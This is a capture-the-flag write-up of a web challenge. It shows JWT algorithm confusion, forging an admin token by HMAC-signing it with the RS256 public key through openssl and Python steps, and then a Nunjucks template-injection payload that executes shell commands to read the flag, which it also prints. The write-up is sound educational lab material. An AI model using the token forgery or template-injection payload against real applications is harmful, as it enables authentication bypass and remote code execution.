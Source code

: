 # Cyber Santa – Naughty or Nice

- **Category:** Web
- **Points:** 325
- **Difficulty:** ★★☆☆

## Disclaimer: I did not solve this challenge during the competition.

## Challenge

A website with a simple register/login as well as dashboard page. Source code was supplied.

## Solution

- JWT Token Signing Algorithm accepts both `RS256` and the insecure `HS256`

```
async sign(data) {
    data = Object.assign(data, {pk:publicKey});
    return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
},
async verify(token) {
    return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
}
```

- JWT Token was in format `{username: "xxx", "pk:" "xxx", "iat": "xxx"}`
- Where `pk` was the Public Key that was used to sign the token
- Modifying the JWT Token to accept `HS256` as its algorithm and changing the username to `admin`. We get a new JWT
- We need to sign the this new JWT token using the Public Key supplied

  - Convert the Public Key into hex
    - Add the Public Key to a file called `test.pem`
    - ```
      cat test.pem | xxd -p | tr -d "\\n"
      ```
  - Run the command `echo -n "new_jwt_token" | openssl dgst -sha256 -mac HMAC -macopt hexkey: the_hex_of_publickey`
  - Convert the signature into base64 and remove appended equals signs

  ```
  import base64, binascii
  print(base64.urlsafe_b64encode(binascii.a2b_hex('signature')).replace(b'=',b''))
  ```

  - Append the secret to the header and payload of the new jwt and refresh page

- There is template rendering from the nunjucks templating engine
- Using the payload

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat ../flag*')")()}}
```

retrieves the flag

```
HTB{S4nt4_g0t_ninety9_pr0bl3ms_but_chr1stm4s_4in7_0n3}
```

## Thoughts

- This was quite hard. Even while following writeups, had a bit of trouble
- Getting the jwt signed with the Public Key had to be on my Kali VM because my Mac had some error setting context, bad key length in some crypto internal error that I couldn't rectify
- Hex encoding of base 64 public key should have been done using the bash utilities. I did not figure out why converting it into bytes then hex gave me an invalid signature.
- Learnt a new templating payload
- Learnt how to crack jwts! (weak ones that accept multiple algorithms)
- Useful post that I referred to [jwt cracker](https://habr.com/en/post/450054/)
